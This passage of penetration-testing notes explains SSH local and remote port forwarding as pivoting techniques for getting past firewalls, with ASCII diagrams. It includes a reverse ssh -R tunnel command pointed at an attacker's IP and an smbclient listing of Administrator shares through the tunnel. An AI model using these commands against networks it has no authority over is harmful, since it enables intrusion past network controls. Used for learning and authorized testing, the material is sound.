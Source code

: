 Local port forward with `ssh` to bypass firewall that is allowing inbound and outbound connection from specific ports, then using some service to tunnel traffic to the `Server`
```goat				
	________{_____SSH Tunnel_____}___
	^		  {                 }	|
	|			{		      }		|
______			 {		    }		|
[[  ]] ---------> {Internet}		|
/===/				  ^				|
Attacker			  |				|
				  	  |				|
		   _______[FIREWALL]		|
		  | 						|
		  |		____________________|
		  |		|	
		  |		|	
		  |		|   _______________Service Interaction_________
		  |		V  |										   |
______	  |	   ______					  			  ______   |
[[  ]]<------->[[  ]]-----Not routed to firewall----->[[  ]]<---						
/===/		   /===/						 		  [[  ]]	
Client		  Client						  		  Server										 
```

Check the service configuration file to be compatible with whatever servers, clients and network environments Attacker is operating for example SMB with Kali:
```bash
cat -n /etc/samba/smb.conf | grep "min protocol"
# edit
# And restart <insert service> service or with systemctl
sudo /etc/init.d/smbd restart
```

Then we can just connect from our localhost configured to route traffic throught the SSH tunnel:
```bash
smbclient -L 127.0.0.1 -U Administrator
```

## SSH Remote Port Forwarding

Reversal of Local port fowarding as port is **opened** from the remote side of the connection and the traffic is forwarded to a port back to local box with remote flag with `ssh -R`.

```bash
# Syntax: ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R $Attacker_IP:$Listening_port:$remotes_127-0-0-1:$port_forwarded_through attacker@$Attacker_IP
```

Ascii Art:
```goat
 	___________{Internet}_____REMOTE_PORT_FORWARDING_____________
   |				  ^											|
   |				  |											|
   |  		    	  |										  START
______				  |										 ______
[[  ]] ---------> [FIREWALL] <-----/NO ROUTE TO INTERNET-----[[  ]] 
/===/														 /===/
Attacker													 Client
```
Notice that the `START` point differs from the `START` for Local Port Forwarding
